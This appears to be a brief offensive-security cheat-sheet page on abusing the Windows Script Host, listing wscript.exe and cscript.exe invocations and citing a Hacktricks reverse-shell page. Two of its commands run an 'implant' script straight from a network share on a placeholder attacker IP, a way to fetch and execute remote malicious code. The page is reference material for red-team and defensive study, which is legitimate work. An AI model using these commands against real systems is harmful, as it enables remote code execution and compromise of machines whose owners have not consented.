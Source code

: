 # Windows Scripting Host

## VBScript

```
C:\> wscript.exe <script.js | script.vbs>

C:\> wscript.exe //E:vbscript \\<attacker_IP>\path\to\implant.vbs
```

## JScript Dialect

```
C:\> cscript.exe <script.js | script.vbs | script.cs>

C:\> cscript.exe //E:jscript \\<attacker_IP>\path\to\implant.vbs
```

---
## References

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/windows)